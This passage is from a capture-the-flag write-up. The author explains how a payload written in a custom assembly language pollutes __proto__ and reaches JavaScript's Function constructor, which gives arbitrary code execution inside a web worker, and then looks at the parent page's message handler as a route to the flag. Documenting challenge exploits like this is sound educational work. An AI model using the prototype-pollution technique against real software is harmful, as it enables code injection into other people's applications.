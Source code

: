 ```javascript
PAYLOAD/*,1,2,3,4,5,6,7,8,...,*/
```

To do this, we can simply stick our payload in the data section, and move it to index 0,
while moving a `*/` to a very far off index.

Here is our payload now.

```assembly
.data
$a string PAYLOAD/*
$b */
.code
&main:
mov int 500 *int 2 ; move the '/*' to a far away index
mov int 0 *int 1 ; move the payload to index 0
mov string __proto__ *string __defineGetter__ ; Make memory a function __proto__
mov int 2 * string constructor ; Store the function constructor
get string __proto__ string constructor ; Restore memory's __proto__ to an array
mov int 2 *int 2 ; Call the function constructor with our payload (as memory.toString())
```

All this to do `Function('PAYLOAD/*,,,,,,*/')()`!

### Passing the Flag Test

Now that we have arbitrary javascript running, we need to figure out how to get the flag.
The code is running in a webworker, which is somewhat sandboxed. It cannot access the dom,
or the location of the old page, which is where the flag is located.

So now we can look at how the parent is reading the response from the worker. We can send
any responses we want now, so there may be a bug there too.

`test.js` sets the worker, with a callback for onmessage.

```javascript
return new Promise(function(resolve, reject) {
  worker.onerror = function(e) {
    reject(e);
  };
  worker.onmessage = function(e) {
    if (e.data['answer'] == test[1]) {
      resolve(e.data);
    } else {
      reject(new TestCaseError(e.data));
    }
    worker.terminate();
  };
});
```

We can see that if the answer attribute of the returned data object is not equal to the
expected output, it will reject, and terminate our worker. However, if we are able to
cause an exception before `worker.terminate();`, we will be able to continue sending
guesses.
